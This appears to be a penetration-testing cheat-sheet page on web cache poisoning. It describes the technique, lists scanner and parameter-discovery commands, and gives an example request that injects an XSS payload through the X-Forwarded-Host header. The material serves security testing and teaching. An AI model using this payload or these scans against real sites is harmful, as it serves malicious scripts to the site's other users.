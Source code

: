 # Web Cache Poisoning

## General

<p>
Web cache poisoning is an advanced technique whereby an attacker exploits the behavior of a web server and cache so that a harmful HTTP response is served to other users.

Fundamentally, web cache poisoning involves two phases. First, the attacker must work out how to elicit a response from the back-end server that inadvertently contains some kind of dangerous payload. Once successful, they need to make sure that their response is cached and subsequently served to the intended victims.

A poisoned web cache can potentially be a devastating means of distributing numerous different attacks, exploiting vulnerabilities such as XSS, JavaScript injection, open redirection, and so on.
</p>

## Tools

```bash
# https://github.com/Hackmanit/Web-Cache-Vulnerability-Scanner
wcvs -u https://url.com
# https://github.com/s0md3v/Arjun
python3 arjun.py -u https://url.com --get 
python3 arjun.py -u https://url.com --post
# https://github.com/maK-/parameth
python parameth.py -u https://example.com/test.php
# https://github.com/devanshbatham/ParamSpider
python3 paramspider.py --domain example.com
# https://github.com/s0md3v/Parth
python3 parth.py -t example.com
```

```markup
# XSS for users accessing /en?region=uk:
GET /en?region=uk HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: a."><script>alert(1)</script>"
```




